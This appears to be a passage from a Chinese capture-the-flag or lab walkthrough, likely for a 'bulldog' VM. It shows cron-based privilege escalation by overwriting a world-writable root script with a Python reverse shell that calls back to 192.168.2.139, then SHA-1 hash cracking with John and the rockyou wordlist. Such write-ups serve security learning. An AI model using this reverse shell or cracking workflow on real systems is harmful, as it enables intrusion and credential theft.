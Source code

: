 --------------------------------------------
--------------------------------------------
8、计划任务提权

cat runAV 
*/1 * * * * root /.hiddenAVDirectory/AVApplication.py
ls -la /.hiddenAVDirectory/AVApplication.py
-rwxrwxrwx 1 root root 157 Aug 26  2017 /.hiddenAVDirectory/AVApplication.py

项目四、项目十二都讲解过：
echo '#!/usr/bin/env python' > AVApplication.py
echo 'import socket,subprocess,os' >> AVApplication.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> AVApplication.py
echo 's.connect(("192.168.2.139",4455))' >> AVApplication.py
echo 'os.dup2(s.fileno(),0)' >> AVApplication.py
echo 'os.dup2(s.fileno(),1)' >> AVApplication.py
echo 'os.dup2(s.fileno(),2)' >> AVApplication.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> AVApplication.py

等待一分钟成功获得反弹shell！

--------------------------------------------
--------------------------------------------
9、拓展小技巧

1）hash爆破-john
hash-identifier ddf45997a7e18a25ad5f5cf222da64814dd060d5
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))

john pass.txt --format=Raw-SHA1
bulldog          (?)

--------------------------------------------
2）curl、sed小技巧
curl -s http://192.168.4.254/dev/| grep @
-s  提取静态页面信息

curl -s http://192.168.4.254/dev/| grep @ > dayu

Linux sed 命令：
https://www.runoob.com/linux/linux-comm-sed.html
Linux sed 命令是利用脚本来处理文本文件。
sed 可依照脚本的指令来处理、编辑文本文件。
Sed 主要用来自动编辑一个或多个文件、简化对文件的反复操作、编写转换程序等。

数据的查找与替换：
除了整行的处理模式之外， sed 还可以用行为单位进行部分数据的查找与替换<。
sed 的查找与替换的与 vi 命令类似，语法格式如下：

sed 's/要被取代的字串/新的字串/g'       ---选项 i 使 sed 修改文件:

sed -i 's/://g' dayu && sed -i 's/<br>//g' dayu && sed -i 's///g' dayu 

john dayu --format=Raw-SHA1 --wordlist=/root/Desktop/rockyou.txt
成功获得密码信息！
或者hashcat
--------------------------------------------
